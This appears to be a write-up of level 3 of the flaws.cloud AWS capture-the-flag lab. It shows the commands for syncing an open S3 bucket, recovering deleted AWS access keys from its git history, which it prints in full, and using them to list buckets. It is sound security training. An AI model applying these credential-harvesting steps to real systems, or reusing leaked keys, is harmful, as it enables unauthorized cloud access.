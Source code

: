 <font color=OrangeRed> The next level is fairly similar, with a slight twist. Time to find your first AWS key! I bet you'll find something that will let you list what other buckets are.
 </font>


```bash
# 1. list the files in this directory, and seen that listing in this bucket is open to "Everyone".
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
#                            PRE .git/
# 2017-02-26 19:14:33     123637 authenticated_users.png
# 2017-02-26 19:14:34       1552 hint1.html
# 2017-02-26 19:14:34       1426 hint2.html
# 2017-02-26 19:14:35       1247 hint3.html
# 2017-02-26 19:14:33       1035 hint4.html
# 2020-05-22 14:21:10       1861 index.html
# 2017-02-26 19:14:33         26 robots.txt


# 2. .git file.


# 3. Download this whole S3 bucket using:
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2


# 4. see the log history
$ git log
# commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
# Author: 0xdabbad00 <scott@summitroute.com>
# Date:   Sun Sep 17 09:10:43 2017 -0600
#     Oops, accidentally added something I shouldn't have
# commit f52ec03b227ea6094b04e43f475fb0126edb5a61 (this one)
# Author: 0xdabbad00 <scott@summitroute.com>
# Date:   Sun Sep 17 09:10:07 2017 -0600
#    first commit


# A secret file removed in commit on Sep 17
# checkout the state of the repository before that commit
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
# a file show up

[ctf4]
aws_access_key_id = AKIAJ366LIPB4IJKT7SA
aws_secret_access_key = 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


# 5. list S3 buckets using the profile
aws --profile flaws s3 ls
# 2017-02-12 16:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
# 2017-05-29 12:34:53 config-bucket-975426262029
# 2017-02-12 15:03:24 flaws-logs
# 2017-02-04 22:40:07 flaws.cloud
# 2017-02-23 20:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
# 2017-02-26 13:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
# 2017-02-26 13:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
# 2017-02-26 14:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
# 2017-02-26 14:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
# 2017-02-26 15:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

---